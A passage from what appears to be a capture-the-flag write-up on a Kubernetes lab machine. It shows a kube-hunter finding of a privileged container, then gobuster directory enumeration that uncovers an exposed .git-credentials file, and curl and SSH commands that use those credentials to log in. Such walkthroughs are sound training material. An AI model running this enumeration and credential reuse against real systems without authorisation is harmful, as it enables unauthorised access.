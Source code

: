 ```console
|        |                     |                      |                      |     could expose the | node, count: 1       |
|        |                     |                      |                      | node/cluster to      |                      |
|        |                     |                      |                      | unwanted root        |                      |
|        |                     |                      |                      | operations           |                      |
+--------+---------------------+----------------------+----------------------+----------------------+----------------------+
```

Kube-hunter identifies a privileged container running in the calico-node-6595k pod. [Privileged containers present a number of options for privilege escalation on the machine hosting the Kubernete's cluser](https://www.trendmicro.com/en_us/research/19/l/why-running-a-privileged-container-in-docker-is-a-bad-idea.html), but cannot be exploited remotely (unless an additional vulnerability provides RCE within the privileged container).

## 2: Foothold - gobuster, credential disclosure

Returning to the nmap results, we have an nginx instance running on 31337. Accessing the application reveals a generic Bootstrap web page with no external links, no features, and no additional points of leverage. Turning to my go-to gobuster scan using dirbuster's medium wordlist (`gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`) reveals nothing, but a different wordlist gets the following result : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/frank-herby]
└─$ gobuster dir -u http://$IP:31337 -w /usr/share/seclists/Discovery/Web-Content/dirsearch.txt
...snip...
/.git-credentials     (Status: 200) [Size: 50]  
...snip...
```

Curling the `/.git-credentials` route reveals URL encoded credentials for the frank user :

```console
┌──(kali㉿kali)-[~/Documents/tthm/frank-herby]
└─curl $IP:31337/.git-credentials
http://frank:PASSWORD@192.168.100.50
```

and these credentials also provide access through SSH :

```console
┌──(kali㉿kali)-[~/Documents/tthm/frank-herby]
└─$ ssh frank@$IP
frank@10.10.143.248's password: 
...snip...
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-89-generic x86_64)
frank@dev-01:~$ id
uid=1001(frank) gid=1001(frank) groups=1001(frank),998(microk8s)
```

The user flag is at `/home/frank/user.txt`.
